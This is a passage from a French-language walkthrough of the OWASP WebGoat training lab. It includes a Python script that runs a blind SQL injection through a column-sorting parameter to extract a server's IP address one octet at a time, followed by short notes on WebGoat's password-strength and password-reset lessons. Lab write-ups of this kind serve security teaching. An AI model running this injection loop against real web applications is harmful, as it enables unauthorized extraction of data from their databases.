 ```python
import json  
import requests  
  
def sql_injection_mitigation_10():  
	 index = 0  
  
	 headers = {  
		 'Cookie': COOKIE,
	 }  
  
	 while True:  
		 payload = '(CASE WHEN (SELECT ip FROM servers WHERE hostname=\'webgoat-prd\') LIKE \'{}.%\' THEN id ELSE hostname END)'.format(index)  
  
		 r = requests.get('http://host:port/WebGoat/SqlInjection/servers?column=' + payload, headers=headers)  
  
		 try:  
			 response = json.loads(r.text)  
		 except:  
			 print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
			 return  
  
		 if response[0]['id'] == '1':  
			 print('webgoat-prd IP: {}.130.219.202'.format(index))  
			 return  
		 else:  
			 index += 1  
			 if index > 255:  
				 print("No IP found")  
				 return  
  
sql_injection_mitigation_10()
```

#### **(A2) Broken Authentification:**

##### Secure Passwords

4. 
La vérification utilise la bibliothèque https://github.com/dropbox/zxcvbn pour vérifier la force du mot de passe.

##### Password reset

2.  
![Warning](images/wiki_owasp_webgoat/warning.png)  Un bug sur WebWolf empêche d'accéder à la _Mailbox_.

*   Cliquer sur **Forgot your password?**.
*   Renseigner l'adresse mail `{utilisateur}@...`
*   Ouvrir le mail sur **WebWolf** afin de récupérer le nouveau mot de passe.
